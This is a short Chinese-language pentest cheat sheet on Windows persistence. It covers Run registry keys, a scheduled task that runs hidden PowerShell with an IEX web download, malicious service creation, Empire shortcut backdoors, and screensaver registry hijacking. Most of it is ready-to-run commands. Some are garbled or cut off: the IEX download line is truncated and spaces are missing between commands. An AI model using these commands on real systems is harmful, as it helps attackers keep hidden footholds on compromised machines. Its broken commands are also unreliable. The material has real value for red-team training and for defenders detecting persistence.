

## 1.注册表启动项

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```



## 2.计划任务

在命令提示符下，“ schtasks ”可执行文件可用于创建计划任务，该任务将在每个 Windows 登录中以 SYSTEM 的形式下载并执行基于 PowerShell 的有效负载。

```
schtasks /create /tn PentestLab /tr"c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe             -WindowStyle hidden -NoLogo-NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient)
```

## 3.新服务

如果账户具有本地管理员权限，则可以从命令提示符创建服务。参数 Binpath 用执行任意有效负载，而参 数 Auto 用于确保恶意服务将自动启动。

```
sc create pentestlab binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"sc start pentestlab
```

从 CMD 创建或者可以直接从 PowerShell 创建新服务：

```
New-Service -Name "pentestlab" -BinaryPathName "C:\temp\pentestlab.exe" -Description "PentestLaboratories" -StartupType AutomaticSc start pentestla
```

#### 4.快捷方式

Empire 包含一个持久性模块，该模块可以合理地使用后门快捷方式，以执行任意的 PowerShell 有效负载。现有快捷方式的目标字段将被修改以执行存储在注册表项中的 base64 脚本。

## 5.屏幕保护程序

屏幕保护程序设置存储在注册表中，是具有.scr 文件扩展名的可执行文件

```
HKCU\Control Panel\Desktop\SCRNSAVE.exe
HKCU\Control Panel\Desktop\ScreenSaveaActive
HKCU\Control Panel\Desktop\ScreenSaverSecure
HKCU\Control Panel\Desktop\ScreenSaveTimeOut
```

可以通过命令提示符或者从 PowerShell 控制台修改或者添加注册表项。由于.scr 文件本质上是可执行文件，因此连个扩展名 都可以用于后门植入

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.exe
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.scr
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.exe' New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.scr'
```